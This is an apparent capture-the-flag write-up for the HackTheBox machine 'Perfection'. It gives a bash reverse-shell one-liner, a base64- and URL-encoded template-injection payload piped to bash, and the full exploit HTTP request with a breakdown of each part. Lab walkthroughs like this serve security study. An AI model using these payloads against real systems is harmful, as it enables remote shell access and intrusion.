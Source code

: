 ```yaml
---
description: https://app.hackthebox.com/machines/Perfection
---
```


# 🧗 Perfection

<figure><img src="../../../.gitbook/assets/image (541).png" alt=""><figcaption></figcaption></figure>

After the enumeration we find a webpage where we can submit some data, let's try to input a reverse shell →

<figure><img src="../../../.gitbook/assets/image (542).png" alt=""><figcaption></figcaption></figure>

```
bash -i >& /dev/tcp/10.10.14.62/8888 0>&1
```

it did not work so after looking for a bit:&#x20;

I saw that the framework webrick was vulnerable to URL encoding&#x20;

So on cyberchef I encoded the reverse shell:

<figure><img src="../../../.gitbook/assets/image (543).png" alt=""><figcaption></figcaption></figure>

set up a listener with the good lhost and port ->

Submitting it in the form did not work, so i fired up burp

the payload needed to be encoded in base64 then url encoded and  looks like this:&#x20;

```
WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0Mk1pODNNemN6SURBK0pqRT0=                
```

and final payload:

```
a%0A<%25%3dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC42Mi83MzczIDA%2BJjE%3D|+base64+-d+|+bash");%25>1
```

so the request looks like:&#x20;

```
POST /weighted-grade-calc HTTP/1.1
Host: 10.129.211.68
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 155
Origin: http://10.129.211.68
DNT: 1
Connection: close
Referer: http://10.129.211.68/weighted-grade-calc
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

grade1=1&weight1=100&category2=N%2FA&grade2=1&weight2=0&category3=N%2FA&grade3=1&weight3=0&category4=N%2FA&grade4=1&weight4=0&category5=N%2FA&grade5=1&weight5=0&category1=a%0A<%25%3dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC42Mi83MzczIDA%2BJjE%3D|+base64+-d+|+bash");%25>1
```

1. `%0A`: This represents a newline character (line feed). It is used to break the line and start a new line in the code.
2. `<%25%3dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC42Mi83MzczIDA%2BJjE%3D|+base64+-d+|+bash");%25>`: This part of the payload is URL-encoded. After decoding, it becomes `<%=system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi83MzczIDA+JjE=| base64 -d | bash");%>`. This code snippet uses the server-side scripting tag `<% %>` (commonly used in languages like PHP or ASP) to execute a system command.
3.  The system command being executed is `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi83MzczIDA+JjE=| base64 -d | bash`. Breaking it down further:

    * `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi83MzczIDA+JjE=`: This part echoes a base64-encoded string.
    * `| base64 -d`: This pipes the echoed string to the `base64` command with the `-d` option, which decodes the base64-encoded string.
    * `| bash`: Finally, the decoded string is piped to the `bash` shell for execution.

    <figure><img src="../../../.gitbook/assets/image (544).png" alt=""><figcaption></figcaption></figure>
